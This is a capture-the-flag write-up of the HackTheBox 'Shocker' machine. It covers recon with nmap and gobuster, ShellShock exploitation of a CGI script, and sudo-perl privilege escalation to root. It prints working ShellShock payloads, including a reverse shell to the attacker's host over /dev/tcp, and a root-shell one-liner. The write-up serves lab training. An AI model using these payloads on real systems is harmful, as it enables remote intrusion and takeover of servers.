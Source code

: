 ```yaml
---
title: Shocker
tags:
  - HackTheBox
  - Easy
  - Linux
  - ShellShock
  - Sudo-Vulnerability
---
```

![](Pasted%20image%2020241102105019.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.56 shocker.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- shocker.htb > sC.txt

[redacted]
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020241102105723.png)

There’s a misconfiguration on Shocker that’s worth understanding. Typically, most webservers will handle a request to a directory without a trailing slash by sending a redirect to the same path but with the trailing slash. But in this case, there is a directory on Shocker that sends a 404 Not Found with visited without the trailing slash.

Tools like [dirsearch 📁](/notes/tools/dirsearch.md) and [Dirb 📢](/notes/tools/Dirb.md) actually take the input wordlist and loop over each entry sending two requests, with and without the trailing slash. This is really helpful in a case like shocker, but will double the amount of requests sent (and thus time) each time there’s a scan. Both [Gobuster 🐦](/notes/tools/Gobuster.md) and `feroxbuster` have a `-f` flag to force adding the `/` to the end of directories. For Shocker, running with `-f` does find something else:

```shell
gobuster dir -u http://shocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -f

[redacted]
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
```

```shell
dirsearch -e php,sh -u http://shocker.htb/cgi-bin

[redacted]
[11:25:49] 200 -  119B  - /cgi-bin/user.sh
```

So I checked that script:

![](Pasted%20image%2020241102112703.png)

It seems that this script outputs the linux command `uptime`.

## Exploitation

[ShellShock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), AKA Bashdoor or CVE-2014-6271, was a vulnerability in Bash discovered in 2014 which has to do with the Bash syntax for defining functions. It allowed an attacker to execute commands in places where it should only be doing something safe like defining an environment variable. An initial POC was this:

```shell
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

This was a big deal because lots of different programs would take user input and use it to define environment variables, the most famous of which was CGI-based web servers. For example, it’s very typically to store the User-Agent string in an environment variable. And since the UA string is completely attacker controlled, this led to remote code execution on these systems.

> *I got inspired by this website: [sevenlayers.com](https://www.sevenlayers.com/index.php/125-exploiting-shellshock)*, then I created this note

So I decided to intercept the request and send a shellshock payload. I tested this payload:

```shell
() { :;}; echo; /usr/bin/id
```

![](Pasted%20image%2020241102113716.png)

So it's time for a reverse shell:

```shell
() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.16/666 0>&1
```

> Got it!

![](Pasted%20image%2020241102114023.png)

I can now read the user flag:

![](Pasted%20image%2020241102114227.png)

## Privilege escalation

if we run `sudo -l`:

```shell
sudo -l

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

So we can run as sudo without password a perl privileged reverse shell. As [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) says:

> [!Info]
> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```shell
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

> We are root now!:

![](Pasted%20image%2020241102114629.png)

==Machine pwned!==

